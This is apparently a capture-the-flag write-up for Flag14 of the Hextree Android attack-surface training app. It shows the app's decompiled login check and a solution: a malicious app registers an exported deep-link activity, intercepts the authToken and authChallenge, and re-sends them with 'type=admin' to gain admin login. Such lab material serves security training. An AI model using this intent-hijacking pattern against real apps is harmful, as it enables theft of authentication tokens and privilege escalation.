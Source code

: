 ```java
                if (encodeToString.equals("a/AR9b0XxHEX7zrjx5KNOENTqbsPi6IsX+MijDA/92w=")) {
                    if (queryParameter.equals("user")) {
                        Toast.makeText(this, "User login successful", 1).show();
                    } else if (queryParameter.equals("admin")) {
                        Log.i("Flag14", "hash: " + encodeToString);
                        this.f.addTag(queryParameter2);
                        Toast.makeText(this, "Admin login successful", 1).show();
                        success(this);
                    }
                }
            }
        }
```

If no intent is received by activity it will crate an activity to launch a login portal and it takes us to a site that has button to continue logging in upon clicking it the user continues safely as intent will be sent to this activity and  you will login as user .... but we want an admin .....

#### Solution
to get `admin` we need to edit the `type` parameter 
creating an activity that will intercept and send it back with new intent with data you want but make sure it's a link .... uri .... not just butting it as string aka web101

```xml
<activity
android:name=".SecondActivity"
android:exported="true" >
<intent-filter>
  <action android:name="android.intent.action.VIEW"/>
  <category android:name="android.intent.category.DEFAULT"/>
  <category android:name="android.intent.category.BROWSABLE"/>
<data
    android:scheme="hex"
    android:host="token"/>
  </intent-filter>
</activity>
```

```java
Intent intent = getIntent();  
Utils.showDialog(this,intent);  
Uri data = intent.getData();  
//String query_parmaeter1 ="type = " + data.getQueryParameter("type");  
//String query_parmaeter2 = "authToken = " + data.getQueryParameter("authToken");  
//String query_parmaeter3 = "authChallenge = " +data.getQueryParameter("authChallenge");  
//Log.d("data", data.toString());  
//Log.d("query_parmaeter1", query_parmaeter1);  
//Log.d("query_parmaeter2", query_parmaeter2);  
//Log.d("query_parmaeter3", query_parmaeter3);  
  
String authToken = data.getQueryParameter("authToken");  
String authChallenge = data.getQueryParameter("authChallenge");  
  
Intent sendIntent = new Intent();  
sendIntent.setAction("android.intent.action.VIEW");  
sendIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag14Activity");  
sendIntent.setData(Uri.parse("hex://token?authToken="+authToken+"&type=admin&authChallenge="+authChallenge));  
startActivity(sendIntent);
```
